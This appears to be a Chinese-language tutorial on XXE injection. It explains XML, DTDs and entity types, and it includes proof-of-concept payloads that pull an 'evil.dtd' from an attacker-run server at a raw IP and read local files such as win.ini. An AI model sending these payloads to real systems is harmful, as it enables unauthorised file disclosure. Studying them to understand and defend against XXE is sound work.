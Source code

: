 # XXE

> #### :question: `xml`是什么
>
> `xml`是一种文件格式，成为可拓展性标记语言，与`HTML`十分类似。
>
> `xml`设计之初是用来对数据进行传输和储存，而不是像`HTML`一样偏重于展示数据。
>
> `xml`支持用户自定义标签。

> #### :question:  `DTD`是什么
>
> 因为`xml`支持自定义标签，需要有一个“校验”来保证`xml`格式正确，而`DTD`正是用来实现对`xml`的“校验”功能。
>
> ##### 外部引用
>
> ```xml-dtd
> //基本格式
> <!DOCTYPE 根元素名称 SYSTEM "外部DTD的路径"> 
> //外部引用DTD格式:
> <!ENTITY test SYSTEM "http://www.test.com/test.dtd">   	        //调用公网URL
> <!ENTITY test SYSTEM "file:///c:/test.dtd">     		//读取本地文件
> 
> //xml文件：引入DTD，调用元素显示。
> ```
>
> 外部引用时，不同语言支持的协议不同。
>
> ![](/run/user/1000/doc/490bc53f/1598365020.png)
>
> ##### 内部引用
>
> ```xml-dtd
> //定义DTD
> <?xml version="1.0"?>
> <!DOCTYPE person [
> <!ENTITY writer "Jack Wilson">
> <!ENTITY country "Copyright www.test.com">
> ]>
> //XML内部调用,实体有&/实体名称和分号结尾
> <person>&writer;&country;</person>
> ```
>
> ##### 公共引用
>
> ```xml-dtd
> //post型POC利用，这里的url一般是已经搭建的公网存放了恶意代码的服务器
> <?xml version="1.0" encoding="utf-8"?> 
> <!DOCTYPE xxe [<!ELEMENT name ANY >
> <!ENTITY %  xxe PUBLIC "public_id" "http://192.100.10.1:81/evil.dtd" >
> %xxe;]>
> <name>&evil;</name>
> 
> //外部 evil.dtd 中的内容(可以放在自己的服务器上)。 
> <!ENTITY evil SYSTEM "file:///c:/windows/win.ini" >  
> ```
>
> ##### 参数引用
>
> ```xml-dtd
> //参数DTD基本格式
> <!ENTITY % 实体名称 "实体的值">  或者  <!ENTITY % 实体名称  SYSTEM "URI">
> 
> //POC利用代码
> <?xml version="1.0" encoding="utf-8"?> 
> <!DOCTYPE xxe [<!ELEMENT name ANY >
> <!ENTITY %  xxe SYSTEM "http://192.168.10.31:81/evil.dtd" >
> %xxe;]>
> <name>&evil;</name>
> ```

`xml`支持在`DTD`中自定义实体，类似`c`中的宏定义，如下定义后，`xml`中所有的`&myentity`均会被替换为`value`。

```xml-dtd
<!DOCTYPE foo [ <!ENTITY myentity "value" > ]>
```

`xml`还支持调用外部实体，即可以从文件或网络上加载实体。

```xml-dtd
<!DOCTYPE foo [ <!ENTITY ext SYSTEM "file:///path/to/file" > ]>
```

